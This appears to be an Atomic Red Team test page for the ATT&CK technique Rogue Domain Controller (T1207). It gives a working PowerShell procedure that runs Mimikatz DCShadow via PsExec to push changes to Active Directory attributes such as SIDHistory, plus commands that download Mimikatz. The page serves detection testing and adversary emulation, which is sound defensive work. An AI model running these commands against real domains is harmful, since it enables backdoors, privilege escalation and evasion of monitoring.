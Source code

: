 # T1207 - Rogue Domain Controller
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1207)
<blockquote>Adversaries may register a rogue Domain Controller to enable manipulation of Active Directory data. DCShadow may be used to create a rogue Domain Controller (DC). DCShadow is a method of manipulating Active Directory (AD) data, including objects and schemas, by registering (or reusing an inactive registration) and simulating the behavior of a DC. (Citation: DCShadow Blog) Once registered, a rogue DC may be able to inject and replicate changes into AD infrastructure for any domain object, including credentials and keys.

Registering a rogue DC involves creating a new server and nTDSDSA objects in the Configuration partition of the AD schema, which requires Administrator privileges (either Domain or local to the DC) or the KRBTGT hash. (Citation: Adsecurity Mimikatz Guide)

This technique may bypass system logging and security monitors such as security information and event management (SIEM) products (since actions taken on a rogue DC may not be reported to these sensors). (Citation: DCShadow Blog) The technique may also be used to alter and delete replication and other associated metadata to obstruct forensic analysis. Adversaries may also utilize this technique to perform [SID-History Injection](https://attack.mitre.org/techniques/T1134/005) and/or manipulate AD objects (such as accounts, access control lists, schemas) to establish backdoors for Persistence. (Citation: DCShadow Blog)</blockquote>

## Atomic Tests

- [Atomic Test #1 - DCShadow - Mimikatz](#atomic-test-1---dcshadow---mimikatz)


<br/>

## Atomic Test #1 - DCShadow - Mimikatz
Use Mimikatz DCShadow method to simulate behavior of a Domain Controller and edit protected attribute.

[DCShadow](https://www.dcshadow.com/)
[Additional Reference](http://www.labofapenetrationtester.com/2018/04/dcshadow.html)

It will set the badPwdCount attribute of the target user (user/machine account) to 9999. You can check after with:
Get-ADObject -LDAPFilter '(samaccountname=<user>)' -Properties badpwdcount | select-object -ExpandProperty badpwdcount

Need SYSTEM privileges locally (automatically obtained via PsExec, so running as admin is sufficient), and Domain Admin remotely.
The easiest is to run elevated and as a Domain Admin user.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| object | Targeted object (for machine account do not forget to add final '$') | string | bruce.wayne|
| attribute | Object attribute to edit, interesting ones: badpwdcount, primaryGroupId, SIDHistory... | string | badpwdcount|
| value | Value to assign to object attribute | string | 9999|
| mimikatz_path | Mimikatz windows executable | path | $env:TEMP&#92;mimikatz&#92;x64&#92;mimikatz.exe|
| psexec_path | Path to PsExec | string | C:&#92;PSTools&#92;PsExec.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
# starting fake DC server, as SYSTEM (required)
$dc_output_file = "$env:TEMP\art-T1207-mimikatz-DC.log"
Remove-Item $dc_output_file -ErrorAction Ignore
$mimikatzParam ="`"log $dc_output_file`" `"lsadump::dcshadow /object:#{object} /attribute:#{attribute} /value:#{value}`" `"exit`""
$dc = Start-Process -FilePath cmd.exe -Verb Runas -ArgumentList "/c #{psexec_path} /accepteula -d -s #{mimikatz_path} $mimikatzParam"

# wait for fake DC server to be ready...
Start-Sleep -Seconds 5

# server ready, so trigger replication (push) and wait until it finished
& #{mimikatz_path} "lsadump::dcshadow /push" "exit"

Write-Host "`nWaiting for fake DC server to return"
Wait-Process $dc

Write-Host "`nOutput from fake DC server:"
Get-Content $dc_output_file
Start-Sleep 1 # wait a little until the file is not locked anymore so we can actually delete it
Remove-Item $dc_output_file -ErrorAction Ignore

Write-Host "End of DCShadow"
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "mimikatz" -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
Invoke-WebRequest "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip" -OutFile "$env:TEMP\mimikatz.zip"
Expand-Archive $env:TEMP\mimikatz.zip $env:TEMP\mimikatz -Force
New-Item -ItemType Directory (Split-Path $mimikatz_path) -Force | Out-Null
Move-Item $env:TEMP\mimikatz\x64\mimikatz.exe $mimikatz_path -Force
```
##### Description: PsExec tool from Sysinternals must exist on disk at specified location (#{psexec_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{psexec_path}") { exit 0} else { exit 1} 
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "$env:TEMP\PsTools.zip"
Expand-Archive $env:TEMP\PsTools.zip $env:TEMP\PsTools -Force
New-Item -ItemType Directory (Split-Path "#{psexec_path}") -Force | Out-Null
Copy-Item $env:TEMP\PsTools\PsExec.exe "#{psexec_path}" -Force
```




<br/>
